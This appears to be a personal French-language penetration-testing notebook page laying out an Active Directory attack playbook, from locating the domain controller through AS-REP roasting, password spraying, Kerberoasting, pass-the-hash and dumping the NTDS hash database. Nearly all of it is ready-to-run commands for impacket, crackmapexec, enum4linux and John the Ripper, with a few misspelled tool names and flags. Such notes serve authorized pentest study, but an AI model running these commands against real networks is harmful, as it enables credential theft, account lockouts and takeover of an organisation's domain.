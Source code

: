 ```toc

```
cf le cours sur l'AD : [[Cours/]]

# 1. Trouver le DC
La première étape consiste à trouver le contrôleur de domaine. Pour ça on peut :
- Utiliser *nslookup* car le DC sert souvent de DNS
- Utiliser *nmap* et regarder le port 88, ou tous les services exposés

# 2. Actions anonyme

## Enumération
```bash
# Enum all domain users, groups, ...
enum4linux -a -u "%" <DC_IP>

crackmapexec ldap
```

## ASREP Roast
Si la pré-authentification n'est pas obligatoire sur tous les comptes, on peut demander un TGT pour un utilisateur et on l'obtiendra. On ne pourra pas l'utiliser car on ne connait pas la clé privée de l'utilisateur mais on pourra essayer de le casser pour retrouver la clé de l'utilisateur.
```bash
# Test
impacket-GetNPUsers -dc-ip <DC_IP> -usersfile <file> <DOMAIN.FULL>/

# Get TGT
impacket-GetNPUsers -request -dc-ip <DC_IP> -usersfile <file> <DOMAIN.FULL>/ -outputfile hashes.asreproast
```
cf : https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/asreproast

# 3. Actions non-anonyme

## Énumération
```bash
enum4linux -a -u "user" -p "password" <DC_IP>

# Get all users (name, email, password age, last logon)
impacket-GetADUsers -all -dc-ip <DC_IP> <DOMAIN.FULL>/<username>

# Look for credentials in users description
crackmapexec ldap <DC_IP> -u 'user' -p 'password' -M get-desc-users
```

## Password spraying attack
Bien vérifier après combien de tentative les comptes sont bloqués !
```bash
# Get password policy
enum4linux -P -u "username" -p "password" <DC_IP>
# Get user list
enum4linux -U -u "username" -p "password" <DC_IP>

# Format user list, then SPRAY !
crackmapexec smb <IP> -u users.txt -p passwords.txt --continue-on-success
# Use login as password
cme smb <IP> -u users.txt -p users.txt --no-bruteforce --continue-on-succes

# See if user is admin
ldapsearch -x -D '<DOMAIN>\<username>' -W -H ldap://<DC_IP> -b "dc=<DOMAIN>,dc=local" "(sAMAccountName=<username_to_test>)" memberOf
```
On peut lister les utilisateurs du groupe admin et les cibler en particulier.

## Kerberoast
On récupère tous les TGS possibles auxquels l'utilisateur `<username>` peut prétendre. Les TGS récupéré sont formés avec la clé privée des SPN pour lesquels ils sont valides. On peut alors essayer de casser ces TGS pour retrouver les mots de passe des SPN.
```bash
impacket-GetUserSPNs -request -dc-ip <DC_IP> <DOMAIN.FULL>/<username> -outputfile hashes.kerberoast

# Cracking TGS to get SPN password
john --format=krb5tgs hashes.kerberoast
```



# 4. Accès à une machine
Dump des hash de mots de passe locaux.
Puis attaque Pass The Hash : `crackmapexec -H`


# 5. Pass The Hash
```bash
# List SMB shares
crakmapexec smb <ip_addr> --shares -u <user> -H <hash>

# Access a SMB repository
smbclient -U <domain>/<user> --pw-nt-hash --password=<hash> //<ip_addr>/<dir>
```

Dump base NTDS (tous les hash de tous les utilisateurs)
```bash
crakmapexec smb <ip_addr> -u <user> -H <hash> --ntds

# Format to keep only NT hash (4th elt)
john --format=NT <file>
john --format=NT <file> --show 
john --restore 
```
cf [[John The Ripper]].


# Autres
## Lister les entrées DNS
L'AD répertorie des entrées DNS et par défaut tous les utilisateurs peuvent les lister. Certaines entrées sont cachées, i.e. on accède seulement au nom DNS et pas à l'IP et au type d'entrée (A, AAAA, ...) mais on peut récupère l'IP en faisant une requète DNS (c'est l'option -r).
https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/ad-dns-records
```bash
# Display DNS zones
adidnsdump -u <domain>\\<user> ldap://<DC_IP> --print-zones

# Enum DNS records
adidnsdump -u <domain>\\<user> ldap://<DC_IP> -r
cat records.csv

# Enum DNS records from a zone
adidnsdump -u <domain>\\<user> ldap://<DC_IP>.<DNS_zone> -r
cat records.csv
```

